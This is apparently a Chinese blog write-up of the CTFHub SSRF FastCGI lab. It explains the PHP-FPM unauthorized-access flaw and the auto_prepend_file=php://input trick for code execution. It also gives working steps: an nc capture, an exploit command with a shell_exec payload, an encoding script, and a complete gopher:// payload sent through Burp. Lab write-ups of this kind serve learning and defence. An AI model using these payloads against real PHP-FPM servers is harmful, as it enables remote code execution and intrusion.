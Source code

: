 ```yaml
---
title: "SSRF 学习之 ctfhub靶场-FastCGI"
categories: [ "安全技术","CTF" ]
tags: [ "SSRF" ]
draft: false
slug: "566"
date: "2020-12-26 17:45:00"
---
```


# 题目介绍

提示为：“这次.我们需要攻击一下 fastcgi 协议咯.也许附件的文章会对你有点帮助”

题目附件是一篇文章的链接：[Fastcgi 协议分析 && PHP-FPM 未授权访问漏洞 && Exp 编写][1]

# 相关概念、漏洞解析

## FastCGI 协议

相关资料解释如下：

> 在静态网站中，WEB 容器如 Apache、Nginx 相当于内容分发员的角色， 根据用户请求的页面从网站根目录中返回给用户；而在动态网站中，WEB 容器例如 Apache 会根据用户的请求进行简单处理后交给 php 解释器；当 Apache 收到用户对 index.php 的请求后，如果使用的是 CGI，会启动对应的 CGI 程序，对应在这里就是 PHP 的解析器。接下来 PHP 解析器会解析 php.ini 文件，初始化执行环境，然后处理请求，再以规定 CGI 规定的格式返回处理后的结果，退出进程，Web server 再把结果返回给浏览器。这就是一个完整的动态 PHP Web 访问流程

> 这里说的是使用 CGI，而 FastCGI 就相当于高性能的 CGI，与 CGI 不同的是它像一个常驻的 CGI，在启动后会一直运行着，不需要每次处理数据时都启动一次， 所以这里引出下面这句概念，FastCGI 是语言无关的、可伸缩架构的 CGI 开放扩展，其主要行为是将 CGI 解释器进程保持在内存中，并因此获得较高的性能

## php-fpm

> 那么什么是 php-fpm，官方对它的解释是 FPM（FastCGI 进程管理器）用于替换 PHP FastCGI 的大部分附加功能，对于高负载网站是非常有用；也就是说 php-fpm 是 FastCGI 的一个具体实现，并且提供了进程管理的功能在其中的进程中，包含了 master 和 worker 进程，其中 master 进程负责与 Web 服务器进行通信接收 HTTP 请求，再将请求转发给 worker 进程进行处理，worker 进程主要负责动态执行 PHP 代码，处理完成后，将处理结果返回给 Web 服务器，再由 Web 服务器将结果发送给客户端。

`PHP-FPM`未授权访问漏洞

> 漏洞存在点：PHP-FPM 默认监听 9000 端口，如果这个端口暴露在公网，则我们可以自己构造 fastcgi 协议，和 fpm 进行通信

在此处需要配合 nginx(iis7)的解析漏洞来配合

> 在用户访问http://127.0.0.1/favicon.ico/.php时，访问到的文件是favicon.ico，但却按照.php后缀解析了，而这个指定的文件涉及到的关键变量为"SCRIPT_FILENAME"；正常来说，SCRIPT_FILENAME的值是一个不存在的文件/var/www/html/favicon.ico/.php，是PHP设置中的一个选项fix_pathinfo导致了这个漏洞。PHP为了支持Path Info 模式而创造了 fix_pathinfo，在这个选项被打开的情况下，fpm 会判断 SCRIPT_FILENAME 是否存在，如果不存在则去掉最后一个/及以后的所有内容，再次判断文件是否存在，往次循环，直到文件存在

在`fpm`某个版本之前，我们可以将`SCRIPT_FILENAME`的值指定为任意后缀文件，比如`/etc/passwd`

但后来，`fpm`的默认配置中增加了一个选项`security.limit_extensions`：

```
;security.limit_extensions = .php .php3 .php4 .php5 .php7
```

其限定了只有某些后缀的文件允许被`fpm`执行，默认是`.php`

所以，当我们再传入`/etc/passwd`的时候，将会返回`Access denied.`

由于这个配置项的限制，如果想利用`PHP-FPM`的未授权访问漏洞，首先就得找到一个已存在的`PHP`文件，万幸的是，通常使用源安装`php`的时候，服务器上都会附带一些`php`后缀的文件

在本次靶场中，就使用到了一个自带的`php`文件：`/usr/local/lib/php/PEAR.php`

那么，控制`fastcgi`协议通信的内容，为什么就能执行`PHP`代码呢？

刚才说了，我们暂时只能控制`SCRIPT_FILENAME`，让`fpm`执行任意目标服务器上的文件，而不是我们想要其执行的文件，但在`php.ini`中有两个特殊的配置项`auto_prepend_file`和`auto_append_file`，前者是让`PHP`在执行目标文件之前，先包含该文件中指定的文件，后者让`PHP`执行目标文件之后包含其指向的文件。

那么加入我们设置`auto_prepend_file`为`php://input`，那么就等于在执行任何`php`文件前都要包含一遍`POST`的内容。所以，我们只需要把待执行的代码放在`Body`中，他们就能被执行了（除此之外还需要开启远程文件包含选项`allow_url_include`）

那么怎么设置`auto_prepend_file`的值？

这又涉及到`PHP-FPM`的两个环境变量，`PHP_VALUE`和`PHP_ADMIN_VALUE`。这两个环境变量就是用来设置`PHP`配置项的，`PHP_VALUE`可以设置模式为`PHP_INI_USER`和`PHP_INI_ALL`的选项，`PHP_ADMIN_VALUE`可以设置所有选项

（`disable_functions`除外，这个选项是`PHP`加载的时候就确定了，在范围内的函数直接不会被加载到`PHP`上下文中）

最后我们设置`auto_prepend_file = php://input`且`allow_url_include = On`，将需要执行的代码放在`Body`中，即可执行任意代码

涉及到传入的一些关键参数如下：

```
{
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

给出的 exp 的链接为：https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

# 解题

首先，先监听`9000`端口来接收`exp`，因为`PHP-FPM`默认监听`9000`端口：`nc -lvp 9000 > 1.txt`

![][2]

使用给出的`exp`执行如下命令：

```
python ssrf_fastcgi_fpm.py -c "<?php var_dump(shell_exec('ls /'));?>" -p 9000 127.0.0.1 /usr/local/lib/php/PEAR.php
```

![][3]

使用`xxd 1.txt`可以同时查看数据流和元数据：

![][4]

使用`hexdump 1.txt`可以只查看数据流

这样还不能直接利用，还需把它进行`url`编码，用一个简单的`python`脚本来进行编码：

```
# -*- coding: UTF-8 -*-
from urllib.parse import quote, unquote, urlencode

file = open('fcg_exp.txt','r')
payload = file.read()
print("gopher://127.0.0.1:9000/_"+quote(payload).replace("%0A","%0D").replace("%2F","/"))
```

得到编码一次的流量，再编码一次加上`gopher`协议如下：

```
gopher://127.0.0.1:9000/\_%2501%2501%2542%2549%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2542%2549%2501%25e7%2500%2500%250e%2502%2543%254f%254e%2554%2545%254e%2554%255f%254c%2545%254e%2547%2554%2548%2533%2537%250c%2510%2543%254f%254e%2554%2545%254e%2554%255f%2554%2559%2550%2545%2561%2570%2570%256c%2569%2563%2561%2574%2569%256f%256e%252f%2574%2565%2578%2574%250b%2504%2552%2545%254d%254f%2554%2545%255f%2550%254f%2552%2554%2539%2539%2538%2535%250b%2509%2553%2545%2552%2556%2545%2552%255f%254e%2541%254d%2545%256c%256f%2563%2561%256c%2568%256f%2573%2574%2511%250b%2547%2541%2554%2545%2557%2541%2559%255f%2549%254e%2554%2545%2552%2546%2541%2543%2545%2546%2561%2573%2574%2543%2547%2549%252f%2531%252e%2530%250f%250e%2553%2545%2552%2556%2545%2552%255f%2553%254f%2546%2554%2557%2541%2552%2545%2570%2568%2570%252f%2566%2563%2567%2569%2563%256c%2569%2565%256e%2574%250b%2509%2552%2545%254d%254f%2554%2545%255f%2541%2544%2544%2552%2531%2532%2537%252e%2530%252e%2530%252e%2531%250f%251b%2553%2543%2552%2549%2550%2554%255f%2546%2549%254c%2545%254e%2541%254d%2545%252f%2575%2573%2572%252f%256c%256f%2563%2561%256c%252f%256c%2569%2562%252f%2570%2568%2570%252f%2550%2545%2541%2552%252e%2570%2568%2570%250b%251b%2553%2543%2552%2549%2550%2554%255f%254e%2541%254d%2545%252f%2575%2573%2572%252f%256c%256f%2563%2561%256c%252f%256c%2569%2562%252f%2570%2568%2570%252f%2550%2545%2541%2552%252e%2570%2568%2570%2509%251f%2550%2548%2550%255f%2556%2541%254c%2555%2545%2561%2575%2574%256f%255f%2570%2572%2565%2570%2565%256e%2564%255f%2566%2569%256c%2565%2520%253d%2520%2570%2568%2570%253a%252f%252f%2569%256e%2570%2575%2574%250e%2504%2552%2545%2551%2555%2545%2553%2554%255f%254d%2545%2554%2548%254f%2544%2550%254f%2553%2554%250b%2502%2553%2545%2552%2556%2545%2552%255f%2550%254f%2552%2554%2538%2530%250f%2508%2553%2545%2552%2556%2545%2552%255f%2550%2552%254f%2554%254f%2543%254f%254c%2548%2554%2554%2550%252f%2531%252e%2531%250c%2500%2551%2555%2545%2552%2559%255f%2553%2554%2552%2549%254e%2547%250f%2516%2550%2548%2550%255f%2541%2544%254d%2549%254e%255f%2556%2541%254c%2555%2545%2561%256c%256c%256f%2577%255f%2575%2572%256c%255f%2569%256e%2563%256c%2575%2564%2565%2520%253d%2520%254f%256e%250d%2501%2544%254f%2543%2555%254d%2545%254e%2554%255f%2552%254f%254f%2554%252f%250b%2509%2553%2545%2552%2556%2545%2552%255f%2541%2544%2544%2552%2531%2532%2537%252e%2530%252e%2530%252e%2531%250b%251b%2552%2545%2551%2555%2545%2553%2554%255f%2555%2552%2549%252f%2575%2573%2572%252f%256c%256f%2563%2561%256c%252f%256c%2569%2562%252f%2570%2568%2570%252f%2550%2545%2541%2552%252e%2570%2568%2570%2501%2504%2542%2549%2500%2500%2500%2500%2501%2505%2542%2549%2500%2525%2500%2500%253c%253f%2570%2568%2570%2520%2576%2561%2572%255f%2564%2575%256d%2570%2528%2573%2568%2565%256c%256c%255f%2565%2578%2565%2563%2528%2527%256c%2573%2520%252f%2527%2529%2529%253b%253f%253e%2501%2505%2542%2549%2500%2500%2500%2500
```

粘贴到`burp`中对应请求包的位置，发包请求：

![][5]

如图所示，服务器根目录下存在文件`flag_78839d7acd24a4329a4205195d922fb6`，将命令换为查看这个文件再次执行得到最终`flag`

也可以使用[Gopherus][6]这个工具，相比使用`exp`简单一点：

![][7]

![][8]

参考文章：

- [CTFHub-SSRF 部分（已完结）][9]
- [SSRF 系列之攻击 FastCGI][10]
- [我在 CTFHub 学习 SSRF][11]

[1]: https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html#fastcgi-record
[2]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_173213.png
[3]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_173245.png
[4]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_173300.png
[5]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_173521.png
[6]: https://github.com/tarunkant/Gopherus
[7]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_173608.png
[8]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_173623.png
[9]: https://blog.csdn.net/rfrder/article/details/108589988
[10]: https://mp.weixin.qq.com/s/5iMj-KzRA-Vnc5-oFEvP-g
[11]: https://www.freebuf.com/articles/web/258365.html